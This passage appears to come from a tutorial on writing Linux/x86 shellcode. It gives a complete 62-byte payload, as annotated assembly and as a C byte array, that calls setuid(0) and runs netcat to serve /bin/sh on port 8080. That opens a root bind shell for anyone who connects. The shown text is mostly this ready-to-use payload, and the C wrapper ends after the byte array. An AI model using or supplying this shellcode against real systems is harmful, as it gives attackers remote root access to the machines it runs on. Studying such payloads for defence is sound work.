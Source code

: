 The length of the shellcode is 62 bytes.

## The end of the journey

What's left is to package it in a C program. 

```
/*
Shellcode: Linux/x86 - setuid(0) & execve("/bin/nc", ["/bin/nc", "-lp8080", "-e/bin/sh"], NULL) - 62 bytes
Written by: Iliya Dafchev
Date: 15 April 2017

section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
  
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
  
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
  
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
  
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
*/

#include <stdio.h>
#include <string.h>

char shellcode[] =    "\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52"
                                "\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e"
                                "\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68"
                                "\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68"
                                "\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89"
                                "\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58"
                                "\xcd\x80";

```
